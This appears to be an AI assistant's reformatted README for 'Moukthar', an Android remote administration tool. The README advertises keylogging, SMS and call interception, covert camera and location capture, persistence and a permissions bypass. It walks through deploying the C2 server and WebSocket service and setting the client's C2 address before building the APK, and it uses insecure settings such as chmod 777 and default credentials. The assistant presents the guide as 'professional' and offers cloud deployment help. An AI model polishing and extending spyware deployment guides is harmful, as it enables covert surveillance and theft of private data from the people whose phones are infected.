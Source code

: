 Here’s a clean and professional-looking version of your README with improved formatting, headings, and consistent structure:

---

# 📱 Moukthar

**Moukthar** is a remote administration tool (RAT) for Android devices, offering a comprehensive suite of surveillance and control features.

> ⚠️ **Disclaimer:** This tool is intended for educational and research purposes only. Unauthorized use is strictly prohibited.

---

## 🚀 Features

- 🔓 Permissions bypass (Android 12 and below)  
  [Watch Demo](https://youtube.com/shorts/-w8H0lkFxb0)
- 🧠 Keylogger  
  [Watch Demo](https://youtube.com/shorts/Ll9dNrkjFOA)
- 🔔 Notification listener  
- 📩 SMS listener  
- 📞 Phone call recording  
- 📸 Image capturing & screenshots  
- 🎥 Video recording  
- ♻️ Persistence  
- 👥 Read & write contacts  
- 📦 List installed applications  
- ⬇️⬆️ File upload & download  
- 📍 Get device location  

[![Tutorial Video](https://img.youtube.com/vi/ykOx19hAaD4/0.jpg)](https://youtu.be/ykOx19hAaD4)

---

## 🛠️ Installation

### 1. Clone Repository
```bash
git clone https://github.com/Tomiwa-Ot/moukthar.git
```

### 2. Install Dependencies

```bash
# Update package lists
sudo apt update

# Install Apache2
sudo apt install -y apache2

# Install MySQL (MariaDB)
sudo apt install -y mariadb-server mariadb-client

# Install PHP and common extensions
sudo apt install -y php php-common php-cli php-mysql php-curl php-json php-mbstring php-xml php-zip

# Enable Apache rewrite module
sudo a2enmod rewrite
sudo systemctl restart apache2

# Install Composer
sudo apt install -y curl
curl -sS https://getcomposer.org/installer | sudo php -- --install-dir=/usr/local/bin --filename=composer
```

### 3. Configure Server Files

```bash
mv moukthar/Server/* /var/www/html/
cd /var/www/html/c2-server && composer install
cd /var/www/html/web-socket/ && composer install
cd /var/www
chown -R www-data:www-data .
chmod -R 777 .
```

> 💡 Default credentials:  
> **Username:** `android`  
> **Password:** `android`

---

### 4. Database Setup

```sql
CREATE USER 'android'@'localhost' IDENTIFIED BY 'your-password';
GRANT ALL PRIVILEGES ON *.* TO 'android'@'localhost';
FLUSH PRIVILEGES;
```

- Edit DB credentials in:  
  - `c2-server/.env`  
  - `web-socket/.env`

- Import database:
  ```bash
  mysql -u android -p < database.sql
  ```

---

### 5. WebSocket Server

```bash
# Start manually
php Server/web-socket/App.php

# OR run as service
sudo mv Server/websocket.service /etc/systemd/system/
sudo systemctl daemon-reload
sudo systemctl enable websocket.service
sudo systemctl start websocket.service
```

---

### 6. Apache Configuration

#### `000-default.conf`
```apache
<VirtualHost *:80>
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html/c2-server
    DirectoryIndex app.php
    Options -Indexes

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

#### `apache2.conf`
```apache
# Comment this block:
# <Directory />
#     Options FollowSymLinks
#     AllowOverride None
#     Require all denied
# </Directory>

# Add:
<Directory /var/www/html/c2-server>
    Options -Indexes
    DirectoryIndex app.php
    AllowOverride All
    Require all granted
</Directory>
```

---

### 7. PHP Config Adjustments

Edit: `/etc/php/*/apache2/php.ini`

```ini
upload_max_filesize = 128M
post_max_size = 129M
```

---

### 8. Update Client & Server Addresses

#### In `c2-server/src/View/home.php` and `features/files.php`:
```js
const ws = new WebSocket('ws://YOUR_IP_ADDRESS:8080');
```

#### In `functionality/Utils.java`:
```java
public static final String C2_SERVER = "http://YOUR_IP_ADDRESS";
public static final String WEB_SOCKET_SERVER = "ws://YOUR_IP_ADDRESS:8080";
```

---

### 9. Restart Apache

```bash
sudo a2enmod rewrite
sudo service apache2 restart
```

---

### 10. Compile Client

- Open the project in **Android Studio**
- Update server IPs
- Build & deploy APK

---

## 📸 Screenshots

| Login | Dashboard | Installed Apps |
|-------|-----------|----------------|
| ![](screenshots/login.png) | ![](screenshots/c2.png) | ![](screenshots/apps.png) |

| Camera | Contacts | Files |
|--------|----------|-------|
| ![](screenshots/camera.png) | ![](screenshots/contacts.png) | ![](screenshots/files.png) |

| Notifications | SMS | Video |
|---------------|-----|-------|
| ![](screenshots/notifications.png) | ![](screenshots/sms.png) | ![](screenshots/video.png) |

---

## 📝 TODO

- [ ] Auto-scroll logs on dashboard  
- [ ] Fix screenshot functionality  
- [ ] Improve image/video capture when app is not focused  
- [ ] Fix download issues with `DownloadManager`  
- [ ] Fix directory listing to show all contents  

---

Let me know if you'd like a badge section or deployment instructions for cloud environments too!
